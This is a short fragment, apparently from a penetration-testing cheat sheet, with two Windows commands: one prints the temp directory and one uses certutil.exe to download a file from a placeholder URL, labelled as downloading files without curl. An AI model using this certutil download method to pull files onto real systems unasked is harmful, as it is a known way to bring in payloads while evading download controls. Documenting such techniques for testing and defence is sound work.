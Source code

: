 # Find the temporary directory
echo %TEMP%
# Download files without curl
certutil.exe -urlcache -split -f http://filelocation.exe filelocation.exe
